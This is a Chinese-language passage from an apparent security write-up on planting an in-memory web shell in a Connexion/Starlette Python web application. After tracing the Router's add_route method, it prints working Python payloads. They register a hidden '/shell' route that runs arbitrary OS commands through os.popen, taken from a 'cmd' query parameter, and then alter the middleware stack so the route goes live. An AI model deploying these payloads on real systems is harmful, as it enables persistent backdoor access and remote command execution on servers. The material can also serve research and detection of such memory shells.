 参数`view_func`是一个可调用对象（`#1`），然后传入`Starlette`的`Router`类的`add_route`方法：

```python
class Router:
    def add_route(
        self,
        path: str,
        endpoint: typing.Callable[[Request], typing.Awaitable[Response] | Response],   #1
        methods: list[str] | None = None,
        name: str | None = None,
        include_in_schema: bool = True,
    ) -> None:  ## pragma: no cover
        route = Route(
            path,
            endpoint=endpoint,
            methods=methods,
            name=name,
            include_in_schema=include_in_schema,
        )
        self.routes.append(route)
```

跟进`add_route`发现`endpoint`对象需要有`Request`和`Response`两个类型的参数要求（`#1`）。

而前面第一步payload中的`lamda`表达式并没有指定任何参数，因而在路由调用时会报 `takes 0 positional arguments but 1 was given` 的错误。所以将`lamda`表达式修改如下：

```python
lambda request: __import__('starlette.responses',fromlist=['PlainTextResponse']). PlainTextResponse(__import__('os').popen('id').read())
```

如果需要通过请求传参数来控制执行的命令，可以修改成如下：

```python
lambda request: __import__('starlette.responses',fromlist=['PlainTextResponse']). PlainTextResponse(__import__('os').popen (request.query_params.get('cmd','id')).read())
```

最终的2步走payload：

```python
## 1
__import__('sys').modules['__main__'].__dict__['app']. add_url_rule('/shell','shell',lambda request: __import__('starlette.responses', fromlist=['PlainTextResponse']).PlainTextResponse(__import__('os'). popen(request.query_params.get('cmd','id')).read()),methods=['GET'])

## 2
[m.router for m in __import__('sys').modules['__main__']. __dict__['app'].middleware.middleware_stack if m.__class__.__name__ == 'AsyncASGIApp'] [0].routes[0].routes.append([m.router for m in __import__('sys'). modules['__main__'].__dict__['app'].middleware.middleware_stack if m.__class__. __name__ == 'AsyncASGIApp'][0].routes[-1])
```

请求上面2步后，可以看到内存中`/shell`对应的`routes`所在的位置正确：

 ![](/attachments/2025-04-09-connexion-api/808ece8d-7501-4527-8e19-86855f1b0742.png " =586x346")
